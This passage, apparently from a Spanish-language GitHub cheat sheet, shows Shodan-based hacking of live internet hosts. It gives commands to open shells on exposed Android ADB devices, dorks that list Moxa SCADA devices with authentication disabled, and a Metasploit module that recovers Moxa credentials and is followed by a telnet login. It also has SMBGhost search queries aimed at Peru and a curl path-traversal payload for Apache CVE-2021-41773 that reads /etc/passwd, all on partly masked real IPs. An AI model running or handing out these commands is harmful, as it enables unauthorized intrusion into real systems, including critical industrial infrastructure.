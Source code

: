 ```sh
adb devices
```

```sh
adb -s 59.x.x.112:5555 shell
```


### Access devices SCADA Moxa 
Sistema SCADA que utiliza productos de la marca Moxa para establecer la conectividad y la comunicación con los dispositivos industriales que están siendo monitoreados y controlados en una infraestructura crítica o proceso industrial.

```sh
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```

```sh
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```

```sh
telnet 212.x.x.14
```

### Exploit Infrastructure RCE CVE-2020-0796
La vulnerabilidad CVE-2020-0796 se refiere a una vulnerabilidad de ejecución de código remoto (RCE, por sus siglas en inglés) que afecta al protocolo de compartición de archivos SMBv3 (Server Message Block version 3). SMB es un protocolo utilizado para compartir archivos, impresoras y otros recursos en redes de computadoras. La versión 3 (SMBv3) es una versión moderna de este protocolo utilizada en sistemas operativos Windows.

Esta vulnerabilidad se conoció coloquialmente como "SMBGhost" o "CoronaBlue" y fue anunciada en marzo de 2020. 

```sh
vuln:CVE-2020-0796
country:pe port:445
```

### Exploit Web RCE CVE-2021-41773
```sh
shodan search :apache 2.4.49  --fields ip_str,port --separator " " | awk '{print $1":"$2}' | cat > url.txt
```

```sh
curl -k http://210.x.x.7/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
```

